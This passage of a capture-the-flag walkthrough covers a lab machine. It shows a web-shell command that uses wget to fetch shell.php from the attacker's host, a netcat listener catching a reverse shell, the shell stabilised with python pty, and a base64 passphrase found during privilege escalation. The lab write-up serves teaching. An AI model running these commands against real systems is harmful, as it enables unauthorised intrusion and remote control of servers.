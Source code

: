 Now I used the cmd web shell we have on the target to upload the file.

```bash
curl -s http://10.10.52.164/assets/index.php?cmd=wget+http://10.14.91.207/shell.php
```

After that I setup my listener and requested the `shell.php`.

And now we request the shell.php file and get the shell.

```terminal
[★]$ nc -lvnp 9001
listening on [any] 9001 ...
connect to [10.14.91.207] from (UNKNOWN) [10.10.52.164] 53268
SOCKET: Shell has connected! PID: 1742
id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
python3 -c 'import pty; pty.spawn("/bin/bash")'
www-data@myheroacademia:/var/www/html/assets$ export TERM=xterm
export TERM=xterm
www-data@myheroacademia:/var/www/html/assets$ ^Z
[1]+  Stopped                 nc -lvnp 9001
┌─[]─[10.14.91.207]─[sirius@parrot]─[~/ctf/www]
└──╼ [★]$ stty raw -echo; fg
nc -lvnp 9001

www-data@myheroacademia:/var/www/html/assets$ 
```

I used python pty to stabilize the shell.

## **Privilege Escalation**

Checking the web file we find a `Hidden_content` directory in `/var/www/` and it contains a passphrase.

```terminal
www-data@myheroacademia:/var/www$ cd Hidden_Content/
www-data@myheroacademia:/var/www/Hidden_Content$ ls
passphrase.txt
www-data@myheroacademia:/var/www/Hidden_Content$ cat passphrase.txt 
QWxsb[REDACTED]
www-data@myheroacademia:/var/www/Hidden_Content$ cat passphrase.txt |base64 -d
Allmi[REDACTED]
www-data@myheroacademia:/var/www/Hidden_Content$
```

I couldn't use the passphrase to change the any user.

Checking the website files again we find an image that it's not used in the website and just sitting there.

```terminal
www-data@myheroacademia:/var/www/html/assets/images$ ls -l
total 328
-rw-rw-r-- 1 www-data www-data  98264 Jul  9  2023 oneforall.jpg
-rw-rw-r-- 1 www-data www-data 237170 Jul  9  2023 yuei.jpg
```
